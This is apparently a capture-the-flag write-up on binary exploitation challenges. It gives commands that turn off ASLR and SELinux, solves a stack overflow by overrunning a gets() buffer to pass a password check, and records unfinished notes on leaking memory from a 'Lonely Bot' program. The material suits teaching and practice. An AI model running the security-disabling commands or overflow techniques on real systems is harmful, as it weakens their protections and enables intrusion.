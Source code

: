 # Exploitation
Anytime you run across these types of challenges
* Disable Address Space Layout Randomization (ASLR)
* Set ulimit to `unlimited` for core file generation
* Disable SELinux
   ```sh
    sysctl kernel.randomize_va_space=0
    ulimit -S -c unlimited > /dev/null 2>&1
    setenforce 0
   ```

## 75pts: [Stack Overflow]
Authenticate without the password. Cause the program to print 'Success!' without crashing it and without the password. Note the value for 'authenticated' as well.

1. Copy the code into a  file: `exploit-75pts.c`
2. The hint tells us it also wants the value of `authenticated`
3. Edit the program and add a `printf()` statement:
   ```sh
    ...
     if (authenticated) {
         printf("Success!\n");
         printf("%d\n",authenticated);
         return 0;
      }
    ...
   ```
4. Code Review: `strncmp()` - `compares the only first (at most) n bytes of s1 and s2`
5. Code Review: `gets()` - ` gets() will continue to store characters past the end of the buffer`
6. Compile: `gcc -Wall exploit-75pts.c -o exploit-75pts` (note the compiler warning)
6. Entering anything greater than 12 characters as a password (clobbering `\0`), should pass `strncmp()` check:
   ```sh
   ./exploit-75pts
   Enter the password: AAAAAAAAAAAAA
   Success!
   65
   ````

## 175pts: [Lonely Bot]
Lonely Bot just wants to talk. (program output in web console).
* I haven't solved this one yet. The following are just some notes.

1. Crash the program (generate core file): `./lonely_bot < /dev/urandom`
2. Base64 input:
   ```sh
   echo -n 'E' | base64
   RQ==

   base64> RQ==
   Now you're speaking my language!!
   Here's everything I know about that:

   No, I don't think that's right.
   Please, tell me more.
   base64> RQ==0x000000000000000000000000000000000000000000000111
   Now you're speaking my language!!
   Here's everything I know about that:

   The answer is 42.
   Please, tell me more.
   base64> Here's everything I know about that:
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 18 fe 14 32 67 e8 76 90 21 40 00
   00 00 00 00 39 1a 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00 01 00 00 00 48 44 b1 26
   fc 7f 00 00 fe 0b 40 00 00 00 00 00 00 00 00 00
   00 00 00 00 06
   Wow! That's very interesting.
   Please, tell me more.
   base64>
   ```
* Find the correct memory address for the flag?
* Notes/Refs: https://bitvijays.github.io/LFC-BinaryExploitation.html
* Old tool, `memdump` could be useful? http://www.porcupine.org/forensics/tct.html

